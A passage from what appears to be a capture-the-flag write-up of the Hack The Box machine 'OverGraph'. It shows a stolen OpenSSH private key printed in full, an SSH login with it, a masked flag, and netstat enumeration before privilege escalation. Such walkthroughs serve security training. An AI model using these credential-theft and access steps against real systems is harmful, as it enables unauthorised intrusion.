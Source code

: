 On uploading, it worked:

```

oxdf@hacky$ cat 23fea34250615ed7____home_user__ssh_id_rsa 
-----BEGIN OPENSSH PRIVATE KEY-----b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZWQyNTUxOQAAACAvdFWzL7vVSn9cH6fgB3Sgtt2OG4XRGYh5ugf8FLAYDAAAAJjebJ3U3myd1AAAAAtzc2gtZWQyNTUxOQAAACAvdFWzL7vVSn9cH6fgB3Sgtt2OG4XRGYh5ugf8FLAYDAAAAEDzdpSxHTz6JXGQhbQsRsDbZoJ+8d3FI5MZ1SJ4NGmdYC90VbMvu9VKf1wfp+AHdKC23Y4bhdEZiHm6B/wUsBgMAAAADnVzZXJAb3ZlcmdyYXBoAQIDBAUGBw==-----END OPENSSH PRIVATE KEY-----

```

#### Connect

After fixing the nulls to newlines, I can connect as user:

```

oxdf@hacky$ ssh -i ~/keys/overgraph-user user@graph.htb
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-107-generic x86_64)
...[snip]...
user@overgraph:~$

```

And grab `user.txt`:

```

user@overgraph:~$ cat user.txt
af0f30a6************************

```

## Shell as root

### Enumeration

#### netstat

There’s not much to find on the file system, but looking at the `netstat`, there’s a lot of local listening ports:

```

user@overgraph:~$ netstat -tnlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:9851          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:4200          0.0.0.0:*               LISTEN      1075/node           
tcp        0      0 127.0.0.1:27017         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      1076/node           
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8084          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:45205         0.0.0.0:*               LISTEN      6196/google-chrome  
```
